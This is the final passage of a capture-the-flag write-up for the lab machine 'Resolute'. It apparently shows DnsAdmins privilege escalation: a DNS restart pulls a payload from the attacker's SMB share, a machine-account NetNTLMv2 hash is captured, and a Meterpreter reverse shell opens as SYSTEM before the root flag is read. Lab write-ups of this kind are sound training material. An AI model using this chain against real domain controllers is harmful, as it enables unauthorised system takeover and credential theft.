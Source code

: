 ```console
        PID                : 2296
        FLAGS              :
```
Now we just have to restart dns.

```python
[*] Incoming connection (10.10.10.169,53078)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:83ef6f5e3e34fc84f7d7d8f9627d7f08:010100000000000000272d373026d601acdab6f70617794e000000000100100059004c004a00700048004900640069000300100059004c004a0070004800490064006900020010005300650051004b00670073007a007800040010005300650051004b00670073007a0078000700080000272d373026d60106000400020000000800300030000000000000000000000000400000b3fd9b57faaa6f84735c85c369fe6485b30ca0f320609d66f1abecb748d925630a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320034000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
```
Immediately after restarting, we get a connection on our smbserver.

```ruby
[*] Sending stage (206403 bytes) to 10.10.10.169
[*] Meterpreter session 1 opened (10.10.14.24:443 -> 10.10.10.169:53079) at 2020-05-09 20:32:40 +0200

msf5 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ RESOLUTE  10.10.14.24:443 -> 10.10.10.169:53079 (10.10.10.169)

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 2492 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
We get a callback on our listener with a shell as system and can now read root.txt.
```console
C:\Users\Administrator\Desktop>type root.txt
e1d94***************************
```